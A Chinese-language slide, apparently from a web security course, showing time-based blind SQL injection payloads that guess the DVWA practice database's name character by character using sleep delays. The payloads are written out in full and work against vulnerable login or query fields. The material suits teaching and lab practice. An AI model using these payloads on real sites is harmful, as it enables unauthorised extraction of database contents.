

# 猜解数据库的名称
1’ and if(ascii(substr(database(),1,1))>97,sleep(5),1)#
成功
1’ and if(ascii(substr(database(),1,1))<112,sleep(5),1)#
成功，全为小写字母
和布尔值一样的方法试出
1’ and if(ascii(substr(database(),1,1))=100,sleep(5),1)#
第一位为100，d
1’ and if(ascii(substr(database(),2,1))=118,sleep(5),1)#
第二位为118，v
最后以此类推为dvwa
42
2022/6/11